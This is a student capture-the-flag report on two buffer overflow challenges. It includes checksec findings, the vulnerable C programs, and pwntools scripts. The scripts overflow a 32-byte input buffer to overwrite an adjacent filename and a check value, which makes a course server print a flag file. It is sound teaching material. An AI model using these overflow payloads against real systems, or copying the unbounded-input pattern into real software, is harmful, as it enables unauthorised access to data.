



# CTF Buffer Overflow Report

## Preparation

Before starting the CTF challenge, we took steps to set up our environment by installing two essential programs that would be used in both attacks:

- **pwntools**: A Python library for interacting with binary programs.

- **checksec**: A tool used to gather information about the security measures in place for a binary program.

## Challenge 1

### Information Gathering

Our initial phase involved collecting information about the target program. We ran the `checksec` command to assess the security attributes of the program and obtained the following findings:



By analysing the results we deduce that:

- The file architecture is **x86 (32-bit)**.
- There is no stack canary protecting the return address.
- The stack has execution permissions.
- Binary positions are not randomized.
- The stack has read, write, and execute permissions.

After that we examined the contents of the following files:

- **exploit-example.py**: A template for creating an attack script. This script connects to the server **ctf-fsi.fe.up.pt:4000** and takes a string as input for the main program.

  ```c
  #!/usr/bin/python3
  from pwn import *
  
  DEBUG = False
  
  if DEBUG:
      r = process('./program')
  else:
      r = remote('ctf-fsi.fe.up.pt', 4003)
  
  r.recvuntil(b":")
  r.sendline(b"Tentar nao custa")
  r.interactive()
  ```

  

- **main.c**: The C code of the program to be exploited. It initializes two character arrays: one with a size of 8, named **meme_file**, which contains the path of a file to be opened, and the other with a size of 32, named **buffer**, which is used for input. The program reads 40 bytes from the input and inserts them into the **buffer**. Finally, the program opens the file specified in **meme_file** and prints its contents.

  ````c
  #include <stdio.h>
  #include <stdlib.h>
  
  int main() {
      char meme_file[8] = "mem.txt\0";
      char buffer[32];
  
      printf("Try to unlock the flag.\n");
      printf("Show me what you got:");
      fflush(stdout);
      scanf("%40s", &buffer);
  
      printf("Echo %s\n", buffer);
  
      printf("I like what you got!\n");
      
      FILE *fd = fopen(meme_file,"r");
      
      while(1){
          if(fd != NULL && fgets(buffer, 32, fd) != NULL) {
              printf("%s", buffer);
          } else {
              break;
          }
      }
  
  
      fflush(stdout);
      
      return 0;
  }
  ````

- **mem.txt**: A file with some text that the program opens by default.

- **program**: The compiled program from **main.c**.

### Attack

After analyzing the program's content, we identified a buffer overflow vulnerability due to the insufficiently allocated memory in the **buffer** array. To exploit this vulnerability, we modified the **exploit-example.py** script to insert 32 'a' characters followed by 'flag.txt' into the **buffer**, allowing us to override the meme_file contents with the string "flag.txt". Because of that, the program read the file "flag.txt" instead of reading the file "mem.txt". 

```c
#!/usr/bin/python3
from pwn import *

DEBUG = False

if DEBUG:
    r = process('./program')
else:
    r = remote('ctf-fsi.fe.up.pt', 4003)

r.recvuntil(b":")
r.sendline(b"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaflag.txt")
r.interactive()
```

Executing this script allowed us to successfully run the program and obtain the flag.



## Challenge 2

### Information Gathering

In the second challenge, we anticipated a more complex task to retrieve the flag. Similar to the first challenge, we executed the `checksec` command, which yielded identical results regarding the program's security measures.


We proceeded to examine the contents of the following files:

- **main.c**: This file, similar to the previous challenge, contains the C code of the program to be exploited. It initialises three character arrays: one with a size of 9, named **meme_file**, which holds the file path; another with a size of 4, named **val**, containing the characters "\xef\xbe\xad\xde"; and the third with a size of 32, named **buffer**, used for input. The program reads 45 bytes from the input and inserts them into the **buffer**. If the contents of **val** match **0xfefc2324**, the program opens the file specified in **meme_file** and prints its contents.

  ```c
  #include <stdio.h>
  #include <stdlib.h>
  
  int main() {
      char meme_file[9] = "mem.txt\0\0";
      char val[4] = "\xef\xbe\xad\xde";
      char buffer[32];
  
      printf("Try to unlock the flag.\n");
      printf("Show me what you got:");
      fflush(stdout);
      scanf("%45s", &buffer);
      if(*(int*)val == 0xfefc2324) {
          printf("I like what you got!\n");
          
          FILE *fd = fopen(meme_file,"r");
          
          while(1){
              if(fd != NULL && fgets(buffer, 32, fd) != NULL) {
                  printf("%s", buffer);
              } else {
                  break;
              }
          }
      } else {
          printf("You gave me this %s and the value was %p. Disqualified!\n", meme_file, *(long*)val);
      }
  
  ```

  

- **mem.txt**: A file containing text that the program opens by default.

- **program**: The compiled program from **main.c**.

### Attack

Upon collecting and analysing the information, we chose a similar approach to the first challenge: exploiting the program's memory allocation and management to perform a buffer overflow attack. However, in this case, we also had to consider the contents of the **val** variable.

As in the previous challenge, we created an **exploit-example.py** file to assist with the attack. This script connects to the server **ctf-fsi.fe.up.pt:4000** and takes a string as input for the main program.

To achieve our objective, we leveraged the 45 bytes being inserted into the 32-byte **buffer** array to overwrite both the **val** and **meme_file** arrays with the values **0xfefc2324** and the path to the file we wanted to open, in this case, "flag.txt". To accomplish this, we modified the **exploit-example.py** script to insert 32 'a' characters followed by "\x24\x23\xfc\xfe" and, at the end, "flag.txt".

We had to insert the value "\x24\x23\xfc\xfe" and not "\xfe\xfc\x23\x24" because we are working in a little-endian system. 

```c
#!/usr/bin/python3
from pwn import *

DEBUG = False

if DEBUG:
    r = process('./program')
else:
    r = remote('ctf-fsi.fe.up.pt', 4003)
        
list = [0x24,0x23,0xfc,0xfe]
val = bytearray(list)
        
r.recvuntil(b":")
r.sendline(b"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"+val+b"flag.txt")
r.interactive()
```

Executing this script allowed us to successfully run the program and obtain the flag. 


